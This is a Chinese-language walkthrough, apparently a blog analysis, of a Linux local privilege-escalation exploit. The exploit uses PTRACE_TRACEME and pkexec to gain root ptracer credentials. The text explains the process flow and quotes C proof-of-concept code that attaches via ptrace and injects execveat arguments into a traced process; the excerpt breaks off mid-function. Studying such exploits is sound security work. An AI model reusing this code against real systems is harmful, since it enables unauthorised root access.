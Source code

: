 行 70, 调用 fork 生成孙进程（也就是 task C）

然后行 111, task B 运行 fakepkexec 让自己提权再降权

然后看行 76 ~ 84, task C 检测到 task B 的 euid 变成 0 之后， 会执行行 91 进行 PTRACE_TRACEME 操作获取 root 的 ptracer_cred, 然后紧接着 task C 马上运行 execl 执行一个  suid binary 让自己的 euid 变成 0

```c

190   /*
191    * wait for our child to go through both execve() calls (first pkexec, then
192    * the executable permitted by polkit policy).
193    */
194   while (1) {
195     int fd = open(tprintf("/proc/%d/comm", midpid), O_RDONLY);
196     char buf[16];
197     int buflen = SAFE(read(fd, buf, sizeof(buf)-1));
198     buf[buflen] = '\0';
199     *strchrnul(buf, '\n') = '\0';
200     if (strncmp(buf, basename(helper_path), 15) == 0)
201       break;
202     usleep(100000);
203   }
204 
205   /*
206    * our child should have gone through both the privileged execve() and the
207    * following execve() here
208    */
209   SAFE(ptrace(PTRACE_ATTACH, midpid, 0, NULL));
210   SAFE(waitpid(midpid, &dummy_status, 0));
211   fputs("attached to midpid\n", stderr);
212 
213   force_exec_and_wait(midpid, 0, "stage2");
214   return 0;

```

接下去回到 task A 的 main 函数， 行 194 ~ 202, task A 检测到 task B 的 binary comm 变成 helper 之后，
运行行 213 执行 force_exec_and_wait

```c
116 static void force_exec_and_wait(pid_t pid, int exec_fd, char *arg0) {
117   struct user_regs_struct regs;
118   struct iovec iov = { .iov_base = &regs, .iov_len = sizeof(regs) };
119   SAFE(ptrace(PTRACE_SYSCALL, pid, 0, NULL));
120   SAFE(waitpid(pid, &dummy_status, 0));
121   SAFE(ptrace(PTRACE_GETREGSET, pid, NT_PRSTATUS, &iov));
122 
123   /* set up indirect arguments */
124   unsigned long scratch_area = (regs.rsp - 0x1000) & ~0xfffUL;
125   struct injected_page {
126     unsigned long argv[2];
127     unsigned long envv[1];
128     char arg0[8];
129     char path[1];
130   } ipage = {
131     .argv = { scratch_area + offsetof(struct injected_page, arg0) }
132   };
133   strcpy(ipage.arg0, arg0);
134   for (int i = 0; i < sizeof(ipage)/sizeof(long); i++) {
135     unsigned long pdata = ((unsigned long *)&ipage)[i];
136     SAFE(ptrace(PTRACE_POKETEXT, pid, scratch_area + i * sizeof(long),
137                 (void*)pdata));
138   }
139 
140   /* execveat(exec_fd, path, argv, envv, flags) */
```